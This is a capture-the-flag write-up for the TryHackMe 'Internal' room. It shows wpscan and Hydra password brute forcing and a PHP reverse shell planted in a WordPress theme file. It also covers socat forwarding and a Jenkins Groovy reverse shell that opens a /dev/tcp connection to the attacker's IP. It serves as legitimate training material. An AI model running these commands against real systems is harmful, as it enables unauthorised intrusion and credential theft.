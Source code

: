 #Internal

This is a write for the awesome penetration challenge ["Internal"](https://tryhackme.com/room/internal) created by 
[Joe Helle](https://www.linkedin.com/in/joe-helle-63b18893/) "TheMayor"

Have fun!! 


![alt_text](internal/internal.png "image_tooltip")

First we add `internal.thm` to the /etc/hosts file.

For our initial scan we run nmap.

![alt_text](internal/internal1.png "image_tooltip")

Port 22 (SSH) and port 80 (HTTP) are open and we confirm it's a Linux machine.

Next we start directory enumeration with gobuster

`gobuster dir -u http://internal.thm -w /usr/share/wordlists/dirb/common.txt`

![alt_text](internal/internal2.png "image_tooltip")

`blog` seems interesting! Let's check it in our browser.

![alt_text](internal/internal3.png "image_tooltip")

Just another (pretty looking) WordPress blog (^_^)

Looking around doesn't gives us any clues about any credentials, so let's try enumerating with `wpscan`

`wpscan --url http://internal.thm/blog -e u`

![alt_text](internal/internal4.png "image_tooltip")

Going through the scan, we can see that we were successful finding one user(name)!!

![alt_text](internal/internal5.png "image_tooltip")

Cool! We can try to bruteforce the password using wpscan as well.

`wpscan --url http://internal.thm/blog -U admin -P /usr/share/wordlists/rockyou.txt`

Let the tool do its things and in the meantime you can go grab some coffee, because 
it's going to take some time o^_^o 

![alt_text](internal/internal6.png "image_tooltip")

AND ... we get a result!!!

![alt_text](internal/internal7.png "image_tooltip")

We use the credentials found and login `internal.thm/blog/wp-admin/`

After logging in we see this ...

![alt_text](internal/internal8.png "image_tooltip")

Just click on "email is correct" and BOOM! We're logged in as admin!!

![alt_text](internal/internal9.png "image_tooltip")

I see these WordPress dashboards, the first thing I want to do is looking for a place I can upload a php reverse shell,
and that's exactly what we'll do!!

Clicking on "Appearance", then "Theme Editor", then "404.php" and we have the perfect spot to put our shell!!

Substitute the php there for a reverse shell. There are many you can find online! I included one in this writeup's repository.
Make sure to change the IP for yours!!

Click on "update file", start a nc listener in your machine, then go to

`http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php`

![alt_text](internal/internal10.png "image_tooltip")

And we got a shell!! 

But it's www-data and not much we can do besides trying to find a way to escalate our privileges to some other kind of user.

It took me a while looking around until I finally came across something VERY useful right here ...


![alt_text](internal/internal11.png "image_tooltip")

We fully read this file and we have credentials to switch user.

And we get user.txt

![alt_text](internal/internal12.png "image_tooltip")


OK! Next we need to do some privesc to root this machine...
Unfortunately aubreanna is not a sudoer :((

Back to looking around for stuff we can use to escalate our privileges!!

Actually ... haha.. I was hoping to escalate by sudo, but then it wouldn't be a hard machine now, would it?
So I went hunting everywhere, going to crazy places ... only to find myself right back to /home/aubreanna, going through
this file which was RIGHT above user.txt...lol

![alt_text](internal/internal13.png "image_tooltip")

Jenkins service ...is it running over there only? Let's check!!

![alt_text](internal/internal14.png "image_tooltip")

Yup, running in localhost 127.0.0.1:8080

OK, so to see if we can use this to try and escalate privilege, we need it to be available to us, localhost does no good!
I had to go research this one, to be honest... TheMayor always making AMAZING challenges!!

So we can make this available to us through `socat` which means we have to put it in aubreanna's machine.
We can easily do that by using a python http.server + wget

![alt_text](internal/internal15.png "image_tooltip")

`./socat TCP-LISTEN:8888,fork TCP:127.0.0.1:80 &`

OK... but without credentials we can't authenticate!!

We can try to brute force that with Hydra! (POST request from Burp)

`hydra -l admin -P /usr/share/wordlists/rockyou.txt internal.thm -s 8888 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"`

![alt_text](internal/internal16.png "image_tooltip")

I went and took another coffee break and let Hydra do its thing!
(Make sure the TryHackMe machine doesn't expire!!)

After getting our hands on the Jenkins credentials, we can just go to `http://internal.thm:8888` and authenticate!!

We are going to put a reverse shell there as well, so again start a nc listener in our machine

![alt_text](internal/internal17.png "image_tooltip")

Go to "Jenkins", then "nodes", then "master", then "Script Console", then execute the following...

`r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.4.31.108/7878;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()`

Don't forget to change IP and port to match your nc listener.

I forgot to take a screenshot of this and my IP is looong expired, but all you need to do is do some digging, nothing too complicated, and you will find the root password by going to `/opt` , which is the last piece missing for owning the machine.

Go back to aubreanna's machine and simply switch users to root and use the password you found above!!


![alt_text](internal/internal18.png "image_tooltip")

and THAT'S IT!!!

![alt_text](internal/internal19.png "image_tooltip")

I hope you loved this penetration test challenge as much as I did and learned new things.

Make sure to follow Joe "TheMayor" Helle on 
[Twitter](https://twitter.com/joehelle)and [Twitch](https://www.twitch.tv/themayor11)
for AMAZING content!

Thank you so much for reading my writeup and Happy Hacking!!


                                                    `CryptoTzipi AKA CyberLola`


                                     ![alt_text](internal/internal00.png "image_tooltip")













